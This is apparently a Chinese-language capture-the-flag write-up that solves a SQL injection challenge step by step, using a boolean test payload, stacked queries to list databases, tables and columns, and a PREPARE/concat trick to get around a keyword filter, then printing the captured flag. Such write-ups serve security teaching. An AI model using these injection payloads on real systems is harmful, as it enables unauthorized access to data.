






打开页面看到输入框，明显是 SQL 注入点。

输入简单注入测试：
1' or 1=1#
回显如下，说明注入成功：
array(2) {
[0]=> string(1) "1"
[1]=> string(7) "hahahah"
}
array(2) {
[0]=> string(1) "2"
[1]=> string(12) "miaomiaomiao"
}
array(2) {
[0]=> string(6) "114514"
[1]=> string(2) "ys"
}但这里没有 flag，说明需要进一步注入。

尝试 union 查询：
1' union select 1,2;#
回显过滤规则：
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);select 等关键字被过滤，无法直接使用联合查询。

使用堆叠注入获取数据库：
1';show databases;#
array(1) { [0]=> string(11) "ctftraining" }
array(1) { [0]=> string(18) "information_schema" }
array(1) { [0]=> string(5) "mysql" }
array(1) { [0]=> string(18) "performance_schema" }
array(1) { [0]=> string(9) "supersqli" }
array(1) { [0]=> string(4) "test" }
1';show tables;#
array(1) { [0]=> string(16) "1919810931114514" }
array(1) { [0]=> string(5) "words" }
1'; show columns from `1919810931114514`;#
回显直接出现 flag 字段！
array(6) {
[0]=> string(4) "flag"
[1]=> string(12) "varchar(100)"
[2]=> string(2) "NO"
[3]=> string(0) ""
[4]=> NULL
[5]=> string(0) ""
}
select 被过滤，使用 PREPARE 拼接执行：
1';PREPARE hacker from concat('s','elect',' * from `1919810931114514`');EXECUTE hacker;#成功拿到 flag！
flag{23259101-a1f9-4694-8710-166180fb8232}